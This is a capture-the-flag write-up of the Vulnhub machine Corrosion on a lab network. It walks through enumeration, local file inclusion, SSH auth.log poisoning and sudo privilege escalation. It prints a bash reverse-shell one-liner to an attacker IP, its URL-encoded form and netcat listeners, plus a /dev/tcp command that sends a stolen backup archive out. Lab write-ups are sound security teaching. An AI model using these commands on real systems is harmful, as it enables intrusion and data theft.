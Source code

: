 # Corrosion - Writeup

Corrosion is an easy machine from Vulnhub by Proxy Programmer.

Link to the machine: [https://www.vulnhub.com/entry/corrosion-1,730/](https://www.vulnhub.com/entry/corrosion-1,730/)
## Identify The Target

I am using this machine on host-only. 
```
fping -agq 10.10.10.0/24

10.10.10.1
10.10.10.2
10.10.10.10
```

## Enumeration

We need to scan the target for open ports.
```
nmap -sV -sC -oN nmap.log 10.10.10.10

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:a7:1c:8b:4e:85:6b:16:8c:fd:b7:cd:5f:60:3e:a4 (RSA)
|   256 0f:24:f4:65:af:50:d3:d3:aa:09:33:c3:17:3d:63:c7 (ECDSA)
|_  256 b0:fa:cd:77:73:da:e4:7d:c8:75:a1:c5:5f:2c:21:0a (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-server-header: Apache/2.4.46 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:E5:F2:76 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumerate the directories

When navigates to webserver we got **apache default page**.

Run gobuster

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -q -t 50 -u http://10.10.10.10 | tee go.log

http://10.10.10.10/tasks                (Status: 301) [Size: 310] [--> http://10.10.10.10/tasks/]
http://10.10.10.10/blog-post            (Status: 301) [Size: 314] [--> http://10.10.10.10/blog-post/]    	    
http://10.10.10.10/server-status        (Status: 403) [Size: 276]
```

We have `/tasks` and `blog-post`,  Let's vist them.

![](pics/tasks.png)

![](pics/task2.png)

We see ``change permission for auth log``. It gives us an idea that We need to do **SSH log poisoning**. For that, we need local file inclusion.

So, Let's check `/blog-post`.

![](pics/blog.png)

Bruteforce directories.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -q -u http://10.10.10.10/blog-post 

http://10.10.10.10/blog-post/archives      (Status: 301) [Size: 323] [--> http://10.10.10.10/blog-post/archives/]
http://10.10.10.10/blog-post/uploads       (Status: 301) [Size: 322] [--> http://10.10.10.10/blog-post/uploads/]
```
![](pics/archives.png)

Archives directory had a php file named `randylogs.php`. But nothing in there.

Fuzzing it for a LFI. and we found the parameter.

![](pics/fuzzing.png)
 
Read the `/etc/passwd` file from the server.

![](pics/etc-passwd.png)

In `/tasks/tasks_todo.txt`, The hint said: `Change permissions for auth log`. That means the `auth log` file doesn’t have proper permissions. 
So, we can read it.

![](pics/auth1.png)

## Log poisoning

> `auth.log` logs all the activity of SSH login attempts.

> `Log Poisoning` is the attempts to **inject** malicious input to the server log.


Since the file is PHP, if we inject PHP code, the server will execute it.

We'r going to use ssh to inject a PHP code as user name, and that will take input from user and **execute commands**.

![](pics/php1.png)

Refresh `randylogs.php` page, and we injected our code.

![](pics/cmd1.png)

Executing commands: `http://10.10.10.10/blog-post/archives/randylogs.php?file=id`

![](pics/cmd2.png)

Let's get reverse shell: [https://www.revshells.com/](https://www.revshells.com/)

`nc -lnvp 5555`

`bash -c 'bash -i >& /dev/tcp/10.10.10.2/5555 0>&1'`

URL-encoded: `bash%20-c%20'bash%20-i%20%3E&%20/dev/tcp/10.10.10.2/5555%200%3E&1'%0A`

And we have a shell.

![](pics/shell)

After a while, i found `/var/backups/user_backup.zip` , Let's download it.

open a netcat listener on the local machine: `nc -lnvp 5566 > user.zip`.

On the target machine: `cat user_backup.zip > /dev/tcp/10.10.10.2/5566`.

we have to crack the password of the file and extract the contents.

![](pics/crack.png)

We have the password of the user randy. Logged in as `randy`.

![](pics/randy.png)

We got the user.txt.

![](pics/user.png)


## Privilege Escalation
 
checking the sudo permissions

![](pics/sudo.png)

Here, we have got a binary that the user can run as sudo, with SUID bit ON, which means this binary will be running as root.

But, root owns this file that disallows us to edit the file.

![](pics/suid1.png)

user owns the directory which mean we can replace the content of the binary. Hence, we can use the **C** source file to write a code.

![](pics/c.png)

Let's modify the **C** file.

![](pics/nano2.png)

Compile it, and execute it. 
```
gcc c.c -o easysysinfo
sudo /home/randy/tools/easysysinfo
```
We'r root. 

![](pics/root.png)
